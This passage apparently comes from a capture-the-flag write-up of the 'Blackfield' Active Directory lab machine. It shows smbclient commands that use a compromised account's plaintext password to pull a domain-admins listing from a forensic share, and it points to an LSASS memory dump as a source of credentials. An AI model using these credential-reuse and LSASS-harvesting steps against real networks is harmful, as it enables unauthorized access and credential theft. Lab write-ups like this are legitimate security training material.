 ```bash
```

<img src="/assets/img/blackfield/Untitled 2.png" alt="Untitled 2.png" style="width:800px;">

Apparently, our ‘client’ does not have a strong background, but they are working on it x)).

```bash
smbclient -U blackfield.local\\audit2020%'Dusk3d123!' //10.129.229.17/forensic -c "cd commands_output; get domain_admins.txt"
getting file \commands_output\domain_admins.txt of size 528 as domain_admins.txt (1.7 KiloBytes/sec) (average 1.7 KiloBytes/sec)

cat domain_admins.txt                
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator       Ipwn3dYourCompany     
The command completed successfully.
```

The *memory_analysis* directory has a file called *lsass.zip*. This might be a dump of the LSASS process.

```bash
smbclient -U blackfield.local\\audit2020%'Dusk3d123!' //10.129.229.17/forensic -c "ls memory_analysis/"
  .                                   D        0  Thu May 28 21:28:33 2020
  ..                                  D        0  Thu May 28 21:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 21:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 21:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 21:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 21:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 21:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 21:25:08 2020
	...

                5102079 blocks of size 4096. 1694115 blocks available
```